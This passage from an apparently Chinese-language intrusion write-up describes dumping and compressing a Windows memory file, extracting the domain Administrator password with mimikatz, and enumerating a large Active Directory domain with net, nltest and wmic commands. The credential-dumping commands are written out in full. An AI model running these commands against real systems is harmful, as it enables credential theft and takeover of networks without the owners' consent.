 利用 windows 自带的压缩文件下载回本地

```
makecab c:\jboss\bin\1.dmp  1.zip
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)

看到压缩后的大小还是小很多的，下载回来的速度也会更快

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)

mimikatz 离线读取得到域管 Administrator 的密码

```
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)

*   0x03 域内信息收集

net view /domain 查看域

net view /domain: 域名称 查看域内用户

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114624-4f4b378a-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114624-4f4b378a-a31d-1.png)

net group “domain computers” /domain 查询所有域成员计算机列表

我这张截图还只是 C 开头的主机并且还没有结束，粗略估计了一下这一个大域里面至少有 4.500 台主机

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114652-6046d364-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114652-6046d364-a31d-1.png)

net accounts /domain 获取域密码信息

看了一下最多 180 天密码过期

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114712-6c34a07a-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114712-6c34a07a-a31d-1.png)

nltest /domain_trusts 获取域信任信息

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114736-7a33c7f0-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114736-7a33c7f0-a31d-1.png)

net user /domain 向 AD 域用户进行查询

向 AD 查询的用户就更多了，估计远不止 4.500 台，是一个非常庞大的域，因为几乎他三分之二的子域名都解析到了我拿到这个 shell 的 ip 上

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114812-8f993616-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114812-8f993616-a31d-1.png)

wmic user account get /all 获取域内用户详细信息

将详细信息导出到 excel，方便信息归类

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422114829-998fface-a31d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114829-998fface-a31d-1.png)
